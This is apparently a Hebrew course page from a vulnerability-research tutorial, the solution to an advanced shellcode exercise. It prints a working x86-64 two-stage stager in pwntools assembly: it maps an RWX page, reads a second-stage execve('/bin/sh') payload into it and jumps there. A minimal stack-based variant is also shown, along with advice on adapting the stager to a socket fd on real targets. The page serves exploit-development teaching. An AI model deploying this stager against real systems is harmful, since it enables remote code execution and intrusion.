

repository: AmitPinchasi/amittech · page: מחקר-חולשות/3 - Shellcode/3.4 - shellcode מתקדם/3.4 - shellcode מתקדם - פתרון/index.html · generator: mkdocs

## פתרון - shellcode מתקדם

בפתרון נעבור על כל תרגיל עם האסמבלי המלא, קוד ההרכבה, וההוכחה שזה עובד. בסוף כל תרגיל נסביר למה זה עבד ואיך להכליל. כל הקוד רץ מקומית על x86-64.

### פתרון תרגיל 1 - stager שקורא ומריץ שלב שני

נשתמש ב-stager מבוסס `mmap`, כי הוא יוצר לעצמו אזור RWX ולכן עובד גם אם המחסנית לא ניתנת להרצה - וזה המקרה תחת `run_shellcode`. ה-stager יוצר עמוד, קורא אליו את שלב 2 מ-`stdin`, וקופץ אליו.

```python
from pwn import *
context.arch = 'amd64'

stager = asm('''
    push 9
    pop  rax          /* SYS_mmap */
    xor  edi, edi      /* addr = 0 */
    push 1
    pop  rsi
    shl  rsi, 12       /* length = 0x1000 */
    push 7
    pop  rdx           /* prot = RWX */
    push 0x22
    pop  r10           /* MAP_PRIVATE|MAP_ANONYMOUS */
    xor  r8d, r8d
    dec  r8            /* fd = -1 */
    xor  r9d, r9d      /* offset = 0 */
    syscall            /* rax = page */
    mov  r13, rax
    xor  edi, edi      /* fd = 0 (stdin) */
    mov  rsi, r13      /* buf = page */
    push 1
    pop  rdx
    shl  rdx, 12       /* count = 0x1000 */
    xor  eax, eax      /* SYS_read */
    syscall
    jmp  r13           /* run stage-2 */
''')

print(len(stager), 'bytes')     # roughly 41 bytes

# stage 2: execve("/bin/sh")
stage2 = asm(shellcraft.amd64.linux.sh())

p = run_shellcode(stager)
p.send(stage2)                  # the stager reads this into RWX and jumps to it
import time; time.sleep(0.3)    # so the read returns before we send commands
p.sendline(b'id')
print(p.recvline())             # uid=... gid=...
p.interactive()
```

הגרסה המינימלית מהתרגיל (קוראת אל המחסנית וקופצת) עובדת רק כשהמחסנית ניתנת להרצה, למשל בבינארי שקומפל עם `-z execstack`:

```asm
stager_min:
    xor  edi, edi      ; fd = 0
    mov  rsi, rsp      ; buf = the stack
    push 1
    pop  rdx
    shl  rdx, 12       ; count = 0x1000
    xor  eax, eax      ; SYS_read
    syscall
    jmp  rsi           ; jumps to stage 2
```

היא כ-15 בתים בלבד, אבל אם המחסנית לא מריצה (NX פעיל) הקפיצה אליה תיפול. לכן לבדיקה תחת `run_shellcode` אנחנו מעדיפים את גרסת ה-mmap.

**למה זה עבד**: ה-stager הקטן נכנס במקום צר, וכל מה שהוא עושה הוא לקרוא עוד בתים מאותו ערוץ ולקפוץ אליהם. ה-`send(stage2)` הוא בדיוק ה"שלב השני" שה-`read` בולע. ה-`sleep` דרוש כדי שה-`read` יחזור עם שלב 2 בלבד, לפני שנשלח את `id` שאמור להגיע ל-shell ולא ל-stager. **איך להכליל**: על יעד אמיתי, ה-fd של ה-`read` הוא לרוב ה-fd של הסוקט ולא 0, אבל התבנית זהה: injection קטנה שמושכת payload גדול. זו הדרך הסטנדרטית לעקוף מגבלת מקום בinjection.
